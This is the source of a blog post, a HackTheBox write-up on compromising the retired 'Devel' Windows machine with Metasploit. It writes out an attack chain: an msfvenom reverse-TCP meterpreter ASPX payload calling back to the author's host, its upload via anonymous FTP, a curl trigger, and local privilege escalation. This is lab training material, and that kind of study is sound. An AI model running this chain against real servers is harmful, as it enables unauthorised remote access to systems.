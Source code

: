 ```yaml
---
layout: post
title: "Writeup: HackTheBox Devel - with Metasploit"
description: "Rooting Devel using Metasploit."
tags: pentest hackthebox writeup
---
```


This series will follow my exercises in [HackTheBox][].
All published writeups are for retired HTB machines.
Whether or not I use Metasploit to pwn the server will be indicated in the title.

# Devel

_<small>Difficulty: Easy</small>_

_<small>Machine IP: 10.10.10.5</small>_

As always, I start enumeration with [AutoRecon][]. The open ports are TCP/21 and TCP/80. While AutoRecon continues
 scanning, I look into the FTP server. It allows anonymous login! I note that in my mind map and leave it for now to
  check on the results of AutoRecon.

I look at what the nmap HTTP script scan found:

![http-scans-command][]

At the bottom of the results, I see a CVE was found:

![http-scans-vuln][]

I see this CVE is tied to [MS-15-034][] and run that through searchsploit:

![searchsploit-results][]

I take a look at the C exploit:

![exploit-code-top][]

I see that the main body of the payload is simply running a validation on whether the target is vulnerable to this CVE.

![exploit-code-main][]

Well, that would still be useful so let's compile and execute the code:

![compile-check][]

Great. Now what?

I back off and take another look at my enumeration results. I know this is a Windows machine because the server at
 TCP/80 is running IIS. I know it has a CVE. I know that I have anonymous access via FTP to the server, to a
  directory that appears to host the web server's files.
  
Ah. Ok.

Let's generate a reverse TCP meterpreter payload with msfvenom, push it to the target via FTP, then call it from the
 web server to execute and establish a shell back to my box.

The payload command is:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.33 LPORT=4444 -f aspx > devel.aspx
```

Substitute the LHOST and LPORT as applicable for your system.

I can now push the file via FTP with `put`:

```bash
ftp 10.10.10.5
# anonymous login
> put ./devel.aspx
```

Then I need to start a meterpreter handler on my machine listening on LPORT.

```bash
sudo msfconsole
msf> workspace htb
msf> use windows/meterpreter/reverse_tcp
```

I just need to set my local IP:

![meterpreter-reverse-options][]

Then I can set up a local listener by converting this to a handler:

![meterpreter-reverse-handler][]

I can now execute my payload with a curl command:

```bash
curl http://10.10.10.5/devel.aspx
```

Meterpreter records the session (ignore the `whoami -> root` command, I was confused on what terminal I was in):

![meterpreter-web-shell][]

I can now connect to the session I've created:

![meterpreter-session][]

Now let's gather information on the system and check what user I am:

![meterpreter-sysinfo][]

Ok, this is a Windows 7 machine with x86 architecture. I am logged in as the IIS user, which isn't going to give me
 much. I can't even write to my current directory. But, I should be able to write to `C:\Windows\TEMP`. I navigate
  over to there and then use `local_exploit_suggestor` to suggest some exploit modules I can run to elevate my shell
   to administrator.

![local-exploit-suggestor][]

The machine seems to be vulnerable to `exploit/windows/local/bypassuac_eventvwr` - let's try that.

It is unsuccessful, as my IIS user isn't in the Administrators group. On to the next.

![escalate-failed][]

The second exploit, `exploit/windows/local/ms10_015_kitrap0d` is successful.

![root-shell][]

I can now go and retrieve the user and root flags.

![user-flag][]

![root-flag][]

[autorecon]: https://github.com/Tib3rius/AutoRecon
[hackthebox]: https://www.hackthebox.eu
[ms-15-034]: https://docs.microsoft.com/en-us/security-updates/securitybulletins/2015/ms15-034

[compile-check]: /img/htb/devel/compile-vuln-check.png
[escalate-failed]: /img/htb/devel/escalate-failed.png
[exploit-code-top]: /img/htb/devel/exploit-code-1.png
[exploit-code-main]: /img/htb/devel/exploit-code-main-method.png
[http-scans-command]: /img/htb/devel/nmap-http-scans-command.png
[http-scans-vuln]: /img/htb/devel/nmap-http-scans-vuln-found.png
[local-exploit-suggestor]: /img/htb/devel/show-local-exploits.png
[meterpreter-reverse-handler]: /img/htb/devel/meterpreter-reverse-shell-handler.png
[meterpreter-reverse-options]: /img/htb/devel/meterpreter-reverse-shell-options.png
[meterpreter-session]: /img/htb/devel/meterpreter-sessions-reconnect.png
[meterpreter-sysinfo]: /img/htb/devel/meterpreter-sysinfo.png
[meterpreter-web-shell]: /img/htb/devel/meterpreter-web-shell.png
[root-flag]: /img/htb/devel/root-flag.png
[root-shell]: /img/htb/devel/meterpreter-root-shell.png
[searchsploit-results]: /img/htb/devel/searchsploit-results.png
[user-flag]: /img/htb/devel/user-flag.png
